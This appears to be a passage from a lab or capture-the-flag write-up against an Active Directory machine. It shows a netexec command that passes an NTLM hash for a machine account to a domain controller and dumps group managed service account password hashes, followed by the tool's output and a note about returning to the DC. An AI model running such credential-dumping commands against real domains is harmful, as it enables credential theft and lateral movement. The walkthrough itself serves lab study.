└─$ netexec ldap DC -u 'NODERED$' -H d4210ee2db0c03aa3611c9ef8a4dbf49 --gmsa
LDAP        192.168.50.10   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:tengu.vl) (signing:None) (channel binding:Never)
LDAP        192.168.50.10   389    DC               [+] tengu.vl\NODERED$:d4210ee2db0c03aa3611c9ef8a4dbf49
LDAP        192.168.50.10   389    DC               [*] Getting GMSA Passwords
LDAP        192.168.50.10   389    DC               Account: gMSA01$              NTLM: 43fbc277b8bf97b594c6359104a084e8     PrincipalsAllowedToReadPassword: ['gsg_gMSA01', 'Linux_Server']
LDAP        192.168.50.10   389    DC               Account: gMSA02$              NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: gsg_gMSA01

```

Now I am done here and I will go back to the DC.